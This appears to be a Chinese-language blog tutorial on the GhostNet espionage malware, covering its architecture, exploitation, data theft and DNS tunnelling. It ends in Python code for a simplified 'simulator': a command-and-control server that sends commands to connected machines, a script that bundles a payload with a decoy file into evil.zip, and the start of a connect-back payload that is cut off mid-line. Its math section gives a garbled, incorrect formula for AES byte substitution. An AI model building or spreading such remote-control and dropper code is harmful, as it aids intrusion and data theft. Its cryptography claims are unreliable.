

# 编码GhostNet:Python代码实现攻击流程

## 1.背景介绍

### 1.1 什么是GhostNet

GhostNet是一种高度复杂和隐蔽的恶意软件,被认为是有史以来最大规模的网络间谍活动之一。它被设计用于窃取机密数据,并针对政府机构、企业和私人用户进行网络攻击。GhostNet的主要目标包括亚洲、北约成员国、以及其他一些国家的外交机构和政府部门。

### 1.2 GhostNet的发现

GhostNet最初是在2009年被信息安全研究人员发现的。研究人员追踪了一个从中国发出的恶意软件,该恶意软件能够远程控制受感染的计算机系统。他们发现,这种恶意软件已经感染了数以千计的计算机,包括政府、军事、国际组织等重要机构。

### 1.3 GhostNet的危害

GhostNet的主要危害在于它能够秘密地窃取敏感数据,并对目标系统进行远程控制。它利用各种漏洞和社会工程学技术来感染目标系统,然后建立一个隐藏的网络基础设施来传输数据和接收指令。GhostNet还能够记录键盘输入、捕获屏幕截图、远程访问网络摄像头等,从而获取大量机密信息。

## 2.核心概念与联系

### 2.1 GhostNet的架构

GhostNet采用了一种分布式的架构,由多个组件组成。它的核心组件包括:

- 控制服务器(C&C服务器)
- 攻击者工具
- 恶意软件载体
- 恶意软件有效载荷



### 2.2 核心组件功能

1. **控制服务器(C&C服务器)**: 用于管理和控制受感染系统,发送指令和接收数据。
2. **攻击者工具**: 包括各种渗透测试工具、漏洞利用工具等,用于获取系统访问权限。
3. **恶意软件载体**: 如Word文档、PDF文件等,用于传播恶意软件有效载荷。
4. **恶意软件有效载荷**: 实现各种恶意功能的代码,如键盘记录、远程控制等。

### 2.3 GhostNet攻击流程

GhostNet的攻击流程通常包括以下几个步骤:

1. 通过社会工程学技术诱使目标用户打开恶意软件载体
2. 恶意软件有效载荷被执行,并与控制服务器建立连接
3. 攻击者使用各种工具获取系统访问权限
4. 在受感染系统上部署恶意软件,实现远程控制和数据窃取
5. 将窃取的数据传输回控制服务器

## 3.核心算法原理具体操作步骤 

GhostNet的核心算法原理主要涉及以下几个方面:

### 3.1 漏洞利用

GhostNet利用多种软件漏洞来实现对目标系统的渗透和控制,常见的漏洞利用方式包括:

1. **缓冲区溢出漏洞利用**: 通过构造特殊的输入数据,导致程序在写入缓冲区时发生越界访问,从而执行攻击者的恶意代码。

2. **格式化字符串漏洞利用**: 利用程序在格式化字符串时的漏洞,修改程序的执行流程或者直接执行恶意代码。

3. **整数溢出漏洞利用**: 利用整数运算时的溢出问题,破坏程序的正常执行逻辑,实现代码注入或者权限提升。

这些漏洞利用技术通常需要结合反汇编分析、代码注入等多种技术手段,才能最终实现对目标系统的控制。

### 3.2 远程控制

GhostNet通过植入后门程序,实现对受感染系统的远程控制。常见的远程控制技术包括:

1. **反向Shell**: 在受感染系统上打开一个Shell连接,并将其与攻击者的机器相连,从而实现远程命令执行。

2. **远程桌面控制**: 利用远程桌面协议(如RDP、VNC等)直接控制受感染系统的桌面环境。

3. **远程文件访问**: 通过各种文件传输协议(如FTP、SMB等)上传或下载文件,实现对受感染系统文件系统的访问。

这些远程控制技术可以让攻击者完全掌控受感染系统,执行任何恶意操作。

### 3.3 数据窃取

GhostNet的主要目的是窃取敏感数据,常见的数据窃取技术包括:

1. **键盘记录**: 记录用户在受感染系统上的键盘输入,从而获取密码、机密文档等敏感信息。

2. **屏幕捕获**: 定期捕获受感染系统的屏幕截图,获取正在显示的任何信息。

3. **文件扫描**: 扫描受感染系统的文件系统,寻找并上传指定类型的敏感文件。

4. **网络嗅探**: 嗅探受感染系统的网络流量,获取明文数据或者破解加密通信。

这些数据窃取技术可以让攻击者获取大量机密信息,造成严重的安全威胁。

### 3.4 数据传输

为了将窃取的数据传输回控制服务器,GhostNet采用了多种数据传输技术,包括:

1. **HTTP/HTTPS通信**: 利用标准的Web协议与控制服务器进行通信,传输数据和接收指令。

2. **DNS隧道**: 将数据隐藏在DNS查询请求中,绕过防火墙和网络监控。

3. **加密通信**: 使用各种加密算法(如RSA、AES等)对通信内容进行加密,防止被窃听。

4. **流量伪装**: 将恶意通信伪装成正常的网络流量,逃避检测和阻断。

这些数据传输技术可以确保攻击者与受感染系统之间的通信安全和隐蔽。

## 4.数学模型和公式详细讲解举例说明

在GhostNet的攻击过程中,涉及到一些密码学和数学模型,用于实现数据加密、通信隐藏等功能。下面将详细介绍其中的一些核心模型和公式。

### 4.1 RSA加密算法

RSA算法是一种广泛使用的非对称加密算法,它基于大数的因数分解问题。RSA算法的数学原理可以用以下公式表示:

$$
c = m^e \bmod n
$$

其中:
- $m$ 是明文消息
- $e$ 是公钥指数
- $n$ 是模数,等于两个大质数 $p$ 和 $q$ 的乘积 ($n = p \times q$)
- $c$ 是密文

解密过程使用私钥 $d$ ,公式如下:

$$
m = c^d \bmod n
$$

RSA算法的安全性主要依赖于大数的因数分解问题的困难性。如果能够快速分解出 $n$ 的两个质数因子 $p$ 和 $q$ ,就可以计算出私钥 $d$ ,从而破解加密系统。

### 4.2 AES加密算法

AES(Advanced Encryption Standard)是一种对称加密算法,它基于代换-置换网络结构。AES算法的核心是一个代数运算,称为"字节代换"(ByteSub)。

字节代换的数学表达式如下:

$$
S(x) = A^{-1}(M(A(x \oplus k)))
$$

其中:
- $x$ 是输入的字节
- $k$ 是密钥的一个字节
- $A$ 是有限域 $GF(2^8)$ 上的仿射变换
- $M$ 是一个非线性置换,通常采用逆数运算 $x \mapsto x^{-1}$ 在 $GF(2^8)$ 上实现

AES算法的安全性主要来自于其复杂的代数结构和密钥调度算法。攻击者很难推导出密钥,即使已知部分明文和密文对也无法破解整个加密系统。

### 4.3 DNS隧道

DNS隧道是一种隐藏通信的技术,它将数据隐藏在DNS查询请求中,绕过防火墙和网络监控。DNS隧道的工作原理可以用以下公式表示:

$$
query = encode(data, domain)
$$

其中:
- $data$ 是需要传输的数据
- $domain$ 是一个可控制的域名
- $encode$ 是一个编码函数,将数据编码到域名中

接收端使用相应的解码函数来提取隐藏的数据:

$$
data = decode(query, domain)
$$

DNS隧道的关键在于编码和解码函数的设计。一种常见的编码方式是将数据编码为子域名的形式,例如 `base64(data).domain.com`。这种方式可以有效隐藏通信内容,但也存在一些限制,如域名长度、字符集等。

通过上述数学模型和公式,我们可以更好地理解GhostNet的核心加密和隐藏通信技术。这些技术为GhostNet提供了强大的攻击能力,使其能够长期隐藏在目标系统中,实施各种恶意行为。

## 5.项目实践:代码实例和详细解释说明

为了更好地理解GhostNet的攻击流程,我们将使用Python编写一个简化版本的GhostNet模拟器。该模拟器包含以下几个核心组件:

1. 控制服务器(C&C服务器)
2. 恶意软件载体
3. 恶意软件有效载荷

### 5.1 控制服务器(C&C服务器)

控制服务器是GhostNet的指挥中心,它负责管理受感染的系统,发送指令和接收数据。我们将使用Python的`socket`模块来实现一个简单的TCP服务器作为控制服务器。

```python
import socket

# 创建TCP服务器套接字
server_socket = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
server_address = ('localhost', 8000)
server_socket.bind(server_address)
server_socket.listen(1)

print('控制服务器已启动,等待连接...')

while True:
    print('等待新的连接...')
    connection, client_address = server_socket.accept()

    try:
        print('新连接:', client_address)

        # 接收数据
        while True:
            data = connection.recv(1024)
            if not data:
                break
            print('收到数据:', data.decode())

            # 发送指令
            command = input('输入指令: ')
            connection.sendall(command.encode())

    finally:
        connection.close()
```

这个控制服务器将监听本地的8000端口,等待受感染系统的连接。当有新的连接到来时,它将接收来自受感染系统的数据,并允许攻击者输入指令发送回去。

### 5.2 恶意软件载体

恶意软件载体是传播恶意软件有效载荷的媒介,通常伪装成普通的文件格式,如Word文档、PDF文件等。在这个示例中,我们将使用Python的`zipfile`模块创建一个ZIP文件作为恶意软件载体。

```python
import zipfile
import os

# 创建ZIP文件
zip_file = zipfile.ZipFile('evil.zip', mode='w')

# 添加恶意软件有效载荷
payload_path = os.path.join(os.getcwd(), 'payload.py')
zip_file.write(payload_path)

# 添加伪装文件
decoy_path = os.path.join(os.getcwd(), 'decoy.txt')
zip_file.write(decoy_path)

# 关闭ZIP文件
zip_file.close()

print('恶意软件载体已创建: evil.zip')
```

这段代码将创建一个名为`evil.zip`的ZIP文件,其中包含了恶意软件有效载荷`payload.py`和一个伪装文件`decoy.txt`。受害者在打开这个ZIP文件时,可能会无意中执行恶意软件有效载荷。

### 5.3 恶意软件有效载荷

恶意软件有效载荷是实现各种恶意功能的核心代码。在这个示例中,我们将编写一个简单的Python脚本作为有效载荷,它将连接到控制服务器,并接收和执行指令。

```python
import socket
import subprocess

# 连接到控制服务器
server_address = ('localhost', 8000)
client_socket = socket.socket